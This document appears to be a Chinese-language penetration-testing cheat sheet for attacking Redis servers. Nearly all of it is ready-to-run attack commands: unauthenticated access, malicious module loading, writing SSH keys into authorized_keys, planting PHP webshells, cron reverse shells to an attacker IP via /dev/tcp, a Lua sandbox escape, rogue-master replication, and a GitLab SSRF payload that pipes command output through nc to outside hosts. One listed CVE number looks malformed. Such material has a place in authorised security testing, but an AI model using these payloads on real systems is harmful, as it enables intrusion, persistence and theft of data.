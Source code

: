 # Redis服务

1.自动枚举

```bash
nmap --script redis-info -sV -p 6379 <IP>
msf> use auxiliary/scanner/redis/redis_server
```

2.banner

```Bash
nc -vn 10.10.10.10 6379
redis-cli -h 10.10.10.10 # sudo apt-get install redis-tools
```

## 未授权访问

```Bash
redis-cli -h IP地址
INFO
KEYS *
EVAL "os.execute('id')" 0
CONFIG GET *
DEBUG SCRIPT LOAD "os.execute('id')"
```

## 利用配置文件

1.
```Bash
CONFIG SET dir /etc/
CONFIG GET *
```

2.
malicious_module.c:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include "redismodule.h"

int MaliciousCommand(RedisModuleCtx *ctx, RedisModuleString **argv, int argc) {
    RedisModule_ReplyWithSimpleString(ctx, "Malicious code executed!");
    return REDISMODULE_OK;
}

int RedisModule_OnLoad(RedisModuleCtx *ctx, RedisModuleString **argv, int argc) {
    if (RedisModule_Init(ctx, "malicious_module", 1, REDISMODULE_APIVER_1) == REDISMODULE_ERR) {
        return REDISMODULE_ERR;
    }
    if (RedisModule_CreateCommand(ctx, "malicious_command", MaliciousCommand, "write", 1, 1, 1) == REDISMODULE_ERR) {
        return REDISMODULE_ERR;
    }
    return REDISMODULE_OK;
}
```

```Bash
gcc -shared -o malicious_module.so malicious_module.c -I /usr/share/metasploit-framework/data/exploits/redis/ -fPIC
cp malicious_module.so /etc/redis

redis
MODULE LOAD /etc/redis/malicious_module.so
malicious_command
```

3.
```Bash
redis-cli CONFIG SET notify-keyspace-events "Ex"
redis-cli PSUBSCRIBE "__key*__:*"
redis-cli ECHO "id > /tmp/output"
```

## 写入SSH公钥

```Bash
ssh-keygen -t rsa -b 2048 -f id_rsa
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
cat foo.txt | redis-cli -h 目标服务器IP -x set ssh_key

redis
config set dir /root/.ssh/
config set dbfilename authorized_keys
save
```

2.
```Bash
redis
SET "ssh:known_hosts" "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC..."
CONFIG SET dir /home/user/.ssh
EVAL "local f = io.open('/home/user/.ssh/authorized_keys', 'a+'); f:write('公钥'); f:close()" 0
```

## WebShell注入

1.
```Bash
CONFIG SET dir /usr/local/nginx/html/
CONFIG SET dbfilename shell.php
SET x "<?php system($_GET['cmd']); ?>"
SAVE
```

http://目标服务器IP/shell.php?cmd=id

2.
```Bash
redis-cli EVAL "local f = io.open('/var/www/html/shell.php', 'w+'); f:write('<?php system($_GET[\'cmd\']); ?>'); f:close()" 0
```

3.
```Bash
redis-cli CONFIG SET dir /var/www/html
redis-cli SET "webshell:php" "<?php system($_GET['cmd']); ?>"
SAVE
```

## 反弹Shell

1.
```Bash
nc -lvp 4444

redis
CONFIG SET dir /var/spool/cron/ or /var/spool/cron/crontabs/
CONFIG SET dbfilename root
SET x "\n* * * * * /bin/bash -i >& /dev/tcp/攻击者IP/4444 0>&1\n"
SAVE
```

2.
```Bash
redis-cli EVAL "local s = redis.call('pubsub', 'channels', 'rebound'); local f = io.open('/tmp/rebound.sh', 'w+'); f:write('bash -i >& /dev/tcp/attacker_ip/8080 0>&1'); f:close()" 0
redis-cli PUBLISH rebound "rebound"
redis-cli SUBSCRIBE rebound
```

## Lua沙盒绕过

+ CVE-2022-05432
+ CVE-2022-0543

```Bash
EVAL "local io_l = package.loadlib('/usr/lib/x86_64-linux-gnu/liblua5.1.so.0', 'luaopen_io'); local io = io_l(); local f = io.popen('id', 'r'); local res = f:read('*a'); f:close(); return res" 0
```

[cve-2022-0543](https://github.com/aodsec/CVE-2022-0543)

[http request redis](https://www.agarri.fr/blog/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html)

## 主从模块

攻击者服务器连接目标服务器
```Bash
SLAVEOF 攻击者服务器IP 6379
```

攻击者服务器
```Bash
CONFIG SET dir /var/spool/cron
CONFIG SET dbfilename root
SET x "\n* * * * * /bin/bash -i >& /dev/tcp/攻击者IP/4444 0>&1\n"
SAVE

nc -lvvp 4444
```

## Gitlab SSRF + CRLF 到 Shell

```Bash
multi
sadd resque:gitlab:queues system_hook_push
lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc 192.241.233.143 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
exec
```

```Bash
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Ccat%20%2Fflag%20%7C%20nc%20127%2E0%2E0%2E1%202222%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf123321.git
```
